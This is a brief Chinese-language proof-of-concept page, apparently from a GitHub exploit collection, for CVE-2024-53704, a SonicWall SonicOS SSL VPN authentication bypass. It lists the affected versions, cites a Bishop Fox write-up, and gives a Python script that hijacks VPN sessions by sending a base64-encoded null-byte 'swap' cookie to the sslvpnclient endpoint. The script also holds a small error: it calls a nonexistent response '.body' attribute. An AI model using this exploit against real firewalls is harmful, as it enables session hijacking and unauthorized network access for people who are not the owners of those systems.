 # SonicOS-SSLVPN身份验证绕过漏洞(CVE-2024-53704)

**SonicWall防火墙的身份验证旁路，允许远程攻击者劫持Active SSL SSL VPN会话并获得未经授权的网络访问，Sononicos版本7.1.x（7.1.1-7058及以上），7.1.2-7019和8.0.0-8035受到影响**。

## poc

```python
import base64, requests, urllib3, warnings
warnings.filterwarnings("ignore", category=urllib3.exceptions.InsecureRequestWarning)
resp = requests.get(
    "https://192.168.50.189:4433/cgi-bin/sslvpnclient?launchplatform=",
    cookies={"swap": base64.b64encode(b"\x00" * 32).decode()},
    verify=False
)
print(resp.headers)
print(resp.body)
```



## 漏洞来源

- https://bishopfox.com/blog/sonicwall-cve-2024-53704-ssl-vpn-session-hijacking